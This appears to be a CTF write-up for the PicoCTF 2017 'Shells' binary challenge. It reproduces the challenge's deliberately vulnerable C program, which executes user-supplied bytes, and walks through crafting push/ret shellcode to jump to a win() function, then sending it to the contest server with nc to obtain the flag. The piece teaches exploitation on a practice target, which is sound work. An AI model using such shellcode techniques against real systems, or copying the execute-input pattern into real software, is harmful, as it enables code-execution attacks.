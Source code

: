 # PicoCTF_2017: Shells

**Category:** Binary
**Points:** 70
**Description:**

>How much can a couple bytes do? Use [shells](shells) [Source](shells.c). Connect on shell2017.picoctf.com:63545.

**Hint:**

>Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag

## Write-up

1.  It's just little tricky one. But if you know basic of shellcode's then it might be easy for you. This time again we got two files
	```
	$ls
	shells shells.c
	```   
	So now lets try to HexDump the  `shells`  binary.
    
      ```
    shells:     file format elf32-i386
     Disassembly of section .init:
     08048378 <_init>:
      8048378:	53                   	push   %ebx
      8048379:	83 ec 08             	sub    $0x8,%esp
      804837c:	e8 ef 00 00 00       	call   8048470 <__x86.get_pc_thunk.bx>
      8048381:	81 c3 8b 16 00 00    	add    $0x168b,%ebx
      8048387:	8b 83 fc ff ff ff    	mov    -0x4(%ebx),%eax
      804838d:	85 c0                	test   %eax,%eax
      804838f:	74 05                	je     8048396 <_init+0x1e>
      8048391:	e8 6a 00 00 00       	call   8048400 <__gmon_start__@plt>
      8048396:	83 c4 08             	add    $0x8,%esp
      8048399:	5b                   	pop    %ebx
      804839a:	c3                   	ret    
     
     Disassembly of section .plt:
     
     080483a0 <read@plt-0x10>:
      80483a0:	ff 35 10 9a 04 08    	pushl  0x8049a10
      80483a6:	ff 25 14 9a 04 08    	jmp    *0x8049a14
      80483ac:	00 00                	add    %al,(%eax)
     	...
     
     080483b0 <read@plt>:
      80483b0:	ff 25 18 9a 04 08    	jmp    *0x8049a18
      80483b6:	68 00 00 00 00       	push   $0x0
      80483bb:	e9 e0 ff ff ff       	jmp    80483a0 <_init+0x28>
     
     080483c0 <printf@plt>:
      80483c0:	ff 25 1c 9a 04 08    	jmp    *0x8049a1c
      80483c6:	68 08 00 00 00       	push   $0x8
      80483cb:	e9 d0 ff ff ff       	jmp    80483a0 <_init+0x28>
     --More--
    ```
    
So it's x86 binary.

Now lets take a look on  `shells.c`  file.
    
	```
     #include <stdio.h>
     #include <stdlib.h>
     #include <unistd.h>
     #include <sys/mman.h>
     
     #define AMOUNT_OF_STUFF 10
     
     //TODO: Ask IT why this is here
     void win(){
         system("/bin/cat ./flag.txt");    
     }
     
     
     void vuln(){
         char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
         if(stuff == MAP_FAILED){
             printf("Failed to get space. Please talk to admin\n");
             exit(0);
         }
         printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
         fflush(stdout);
         int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
         if(len == 0){
             printf("You didn't give me anything :(");
             exit(0);
         }
         void (*func)() = (void (*)())stuff;
         func();      
     }
     
     int main(int argc, char*argv[]){
         printf("My mother told me to never accept things from strangers\n");
         printf("How bad could running a couple bytes be though?\n");
         fflush(stdout);
         vuln();
         return 0;
     }
	```
Just see their iss one  `win()`  function. Lets take a look on win() function in our HexDump. We can short out output using  `grep`  command.
    
    objdump -d shells | grep win
    08048540 <win>:
    
We got the address in Hex we used to write it in this way  `0x08048540`.
    
Now we can use  [radare2](https://github.com/radare/radare2)  to generate our payload. Actually we need  `push+ret`  in order to make our payload.
    
    $rasm2 -C "push 0x08048540"
    "\x68\x40\x85\x04\x08"
    
    $rasm2 -C "ret"
    "\xc3"
    

Here  `-C`  will give output in c format.Now combine the output of push+ret:`\x68\x40\x85\x04\x08\xc3`

Now print this shellcode in one file name:  `spirit_shells`.

 python -c 'print "\x68\x40\x85\x04\x08\xc3"' > spirit_shells

now just cat it out with the : shell2017.picoctf.com:63545

$cat spirit_shells - | nc shell2017.picoctf.com 63545
 My mother told me to never accept things from strangers
 How bad could running a couple bytes be though?
 Give me 10 bytes:
 529efbd9e2dec5400206bedaf6a10e21

So, i think we got the flag  `529efbd9e2dec5400206bedaf6a10e21`.

Hope you liked it

Thanks 
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIxMTMxNjA3ODcsLTEyMzQ3MDQyODhdfQ
==
-->